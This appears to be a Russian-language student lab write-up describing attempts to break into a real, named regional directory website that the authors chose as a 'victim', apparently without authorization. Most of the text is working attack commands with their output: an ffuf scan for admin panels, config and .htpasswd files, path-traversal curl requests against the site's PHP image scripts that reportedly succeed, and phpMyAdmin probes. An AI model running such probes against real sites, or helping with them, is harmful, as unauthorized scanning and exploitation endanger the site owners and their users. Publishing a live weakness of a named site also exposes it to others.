





# Пытаемся сломать чей-то nginx

После первой лабы стало намного интереснее искать ошибки не у себя в коде :)

Ну чтож, начнем с поиска нашей жертвы, вообще мы в 4 руки искали сайтики по типу "ноготочки из Саратова", "телефонный справочник Анджеросудженска", "салон красоты Тамбов" и тп. Конечно, запросов было много и на самом деле, все сайты мы прогоняли через одну проверку в ffuf, чтобы базово определить, где мы можем хотя что-то найти (а найти хотелось)

И вот, спустя 3-5 протыкиваний сайтов, мы нашли <https://rostov-na-donu.infrus.ru/>
Это просто находка (далее увидим почему), а вообще изначально мы его нашли как салон красоты "Кудряшка", наверное, там висело объявление

# 1. Проверка с FFUF

На самом деле, как раз эту проверку мы и прогоняли для каждого подопытного, чтобы найти хоть что-то стоящее для изучения

Итак, сначала создадим словарик с самыми классными названиями, которые было бы интересно увидеть
```
admin
login
wp-admin
phpmyadmin
config
backup
test
api
cgi-bin
.htaccess
.htpasswd
robots.txt
sitemap.xml
```

А далее, попробуем сделать следующее
```ffuf -u "https://rostov-na-donu.infrus.ru/FUZZ" -w wordlist.txt -e .php,.html,.txt,.bak,.old -c```
Тут мы используем наш словарик + также ищем файлики с задаными расширениями


Опоп, получается мы нашли два интересных файлика - robots.txt и config.php


А если внимаетльно приглядеться к robots.txt, то можно увидеть доступ к админке, попробуем перейти по ссылке


И все же нас не пускает, нужен пароль (понятно, что если бы мы были бы настоящими мошенниками, то пароль можно было бы при желании подобрать и вуаля сайт наш, но мы таким не занимаемся)
Но отсюда же мы можем также найти кучу php скриптов, такие как: send_error.php, edit_send.php, addfirm.php, send_mail_*.php

А вот файлик с config не открывается ни через curl, ни просто ссылочкой (там пустая страница)

# 2. Path traversal

Так как мы уже посмотрели на страницу с админкой, то можно попытаться подобрать страницу c ```index.php``` (просто для примера)

Для этого запустим
```
curl "https://rostov-na-donu.infrus.ru/send_error.php?include=../../../../index.php"

curl "https://rostov-na-donu.infrus.ru/send_error.php?page=../../../index.php"

curl "https://rostov-na-donu.infrus.ru/send_error.php?file=../../index.php"
```

Отсюда мы ничего не получили :(



Ну и вспоминая из п. 1 используем скрипты обработки изображений из robots.txt
```
curl "https://rostov-na-donu.infrus.ru/img_resize_100.php?image=../../index.php"

curl "https://rostov-na-donu.infrus.ru/phone_img.php?img=../../../index.php"

curl "https://rostov-na-donu.infrus.ru/img_key.php?file=../../index.php"
```
Однако, если мы глянем на последние две ссылочки, то там увидим страшный бинарный текст, что по сути означает, что кто-то пытался обработать php файл, как картинку


Тогда выполним ```curl -s "https://rostov-na-donu.infrus.ru/phone_img.php?img=../../../index.php" | head -c 200```
Получили
```
GIF89aP
�������!�,P
��������ڋ�޼���H�扦�;
```

Получается, что помимо распахнутых дверей к конфигу, сервер читает файлы вне целевой директории

# 3. Проверим на использование phpAdmin

Для завершения нашей проверки на уязвимости, проверим phpAdmin - работает с базами данных

```
curl -I "https://rostov-na-donu.infrus.ru/phpmyadmin/"
curl -I "https://rostov-na-donu.infrus.ru/pma/"
curl -I "https://rostov-na-donu.infrus.ru/mysql/"
curl -I "https://rostov-na-donu.infrus.ru/admin/phpmyadmin/"
curl -I "https://rostov-na-donu.infrus.ru/dbadmin/"
```

Тут я постаралась перечислить все, связанное с БД, но интересно, что вывод следующий:
```
HTTP/1.0 410 Gone
Date: Mon, 10 Nov 2025 01:54:54 GMT
Server: Apache/2.4.29 (Ubuntu)
Connection: close
Content-Type: text/html; charset=WINDOWS-1251

HTTP/1.0 410 Gone
Date: Mon, 10 Nov 2025 01:54:54 GMT
Server: Apache/2.4.29 (Ubuntu)
Connection: close
Content-Type: text/html; charset=WINDOWS-1251

HTTP/1.1 404 Not Found
Date: Mon, 10 Nov 2025 01:54:54 GMT
Server: Apache/2.4.29 (Ubuntu)
Connection: close
Content-Type: text/html; charset=iso-8859-1

HTTP/1.0 410 Gone
Date: Mon, 10 Nov 2025 01:54:54 GMT
Server: Apache/2.4.29 (Ubuntu)
Connection: close
Content-Type: text/html; charset=WINDOWS-1251

HTTP/1.0 410 Gone
Date: Mon, 10 Nov 2025 01:54:55 GMT
Server: Apache/2.4.29 (Ubuntu)
Connection: close
Content-Type: text/html; charset=WINDOWS-1251
```

При чем, если перейти по 4м ссылкам, то там все равно написано ```Cтраница ... /phpmyadmin/ не существует.```... 
Однако, одна из 5 кидает 404, очень интеречная структура.

# Выводы

Я бы сказала, что здесь есть успешный успех, так как мы явно не должны были оказаться в robots.txt и иметь доступ к конфигу. В целом даже то, что у них есть попытка обработки изображений вне нужной директории, говорит о том, что сайт делали оооочень неграмотные люди, ну или либо делали в спешке. Зато, теперь когда я надумаю делать свой собственный сайтик, предусмотрю все вышепроверенное и написанное :)